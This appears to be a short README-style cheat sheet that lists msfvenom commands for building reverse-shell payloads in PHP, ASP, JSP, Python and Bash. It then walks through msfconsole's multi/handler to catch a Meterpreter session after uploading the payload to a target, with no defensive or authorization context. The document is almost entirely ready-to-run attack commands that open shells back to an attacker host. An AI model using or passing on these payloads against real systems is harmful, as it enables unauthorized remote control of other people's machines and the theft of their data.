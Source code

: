 

To create PHP Meterpreter Reverse TCP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > hackershell.php

cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```

To create ASP Meterpreter Reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

To create JSP Java Meterpreter Reverse TCP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```



To create Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```

To create Bash Unix Reverse Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```


**To use them in target system first upload a payload based on target interface and start multi/handler in your msfconsole**


```
# msfconsole

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD <Payload name>
msf5 exploit(multi/handler) > Set RHOST <Remote IP>
msf5 exploit(multi/handler) > set LHOST <Local IP>
msf5 exploit(multi/handler) > set LPORT <Local Port>
msf5 exploit(multi/handler) > Run

```
  
Boom you will get meterpreter shell easily

After getting meterpreter shell run 'help' command it will show what you can do in the target system

```
meterpreter > help
```

